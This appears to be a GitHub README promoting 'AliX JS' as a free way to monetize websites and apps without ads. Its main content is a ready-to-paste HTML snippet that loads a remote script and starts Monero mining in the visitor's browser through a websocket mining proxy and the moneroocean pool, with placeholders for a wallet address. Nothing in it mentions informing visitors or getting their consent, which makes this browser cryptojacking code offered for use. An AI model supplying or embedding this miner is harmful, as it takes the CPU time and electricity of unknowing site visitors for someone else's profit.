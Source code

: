 ##### AliX JS Is A PowerFull JS Used To Monitize Websites And Apps  
#### Use This Code To Basically Monitize Your Apps Without Ads For Free  
### See This Video For More Info : https://www.youtube.com/watch?v=AZU6TeEjHVQ&t=11s
## `HTML SCRIPT`
```
<script src="https://alixjs.vercel.app/index.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "YOUR-MONERO-ADRESS";
    var workerId = "YOUR-WORKER-ID";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
### Almost All Languages Supports Html Code Includelation .. Use This Code As Your Pride .. 
  
# How It Works ?
- It Is Created By `https://github.com/notgiven688/webminerpool` Repo Basicaly
- I Tooked `SDK/miner_compressed/webmr.js` Script And Used It As Index JS
- I Searched The Whole Internet And Atlest I Found A Free Hosted Server By `monerominer.rocks` And Then Picked It To Use It As `wss://f.xmrminingproxy.com:8181`
- It Currently Only Support One Pool That Is `moneroocean.steam` That Is Very Good Pool